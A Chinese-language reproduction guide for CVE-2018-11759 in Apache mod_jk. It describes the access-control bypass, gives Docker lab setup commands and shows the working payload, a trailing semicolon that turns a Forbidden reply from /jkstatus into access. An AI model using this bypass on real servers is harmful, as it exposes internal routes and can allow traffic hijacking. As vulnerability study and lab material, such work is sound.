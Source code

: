 # 

# Apache Mod_jk 访问控制权限绕过 CVE-2018-11759

## 漏洞描述

Apache Tomcat JK（mod_jk）Connector是美国阿帕奇（Apache）软件基金会的一款为Apache或IIS提供连接后台Tomcat的模块，用以为Apache或IIS服务器提供处理JSP/Servlet的能力。

由于httpd和Tomcat在路径处理规范上存在差异，因此可以绕过Apache mod_jk Connector 1.2.0版本到1.2.44版本上由JkMount httpd指令所定义端点的访问控制限制。
如果一个只有只读权限的jkstatus的接口可以访问的话，那么就有可能能够公开由mod_jk模块给AJP提供服务的内部路由。
如果一个具有读写权限的jkstatus接口可供访问，我们就能通过修改AJP的配置文件中相关配置来劫持或者截断所有经过mod_jk的流量，又或者进行内部的端口扫描。

## 漏洞影响

```
Apache Mod_jk Connector 1.2.0 ~ 1.2.44
```

## 环境搭建

```plain
git clone https://github.com/immunIT/CVE-2018-11759.git
docker-conpose up -d
```

访问 http://xxx.xxx.xxx.xxx:80 成功即可

![1](./images/202202090041136.png)

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/jkstatus 显示无权限访问

```plain
Forbidden
You don't have permission to access /jkstatus on this server.
```



![2](./images/202202090041216.png)

访问  http://xxx.xxx.xxx.xxx/jkstatus; 即可绕过

- 注意是在url后面加上了一个;

![3](./images/202202090042251.png)
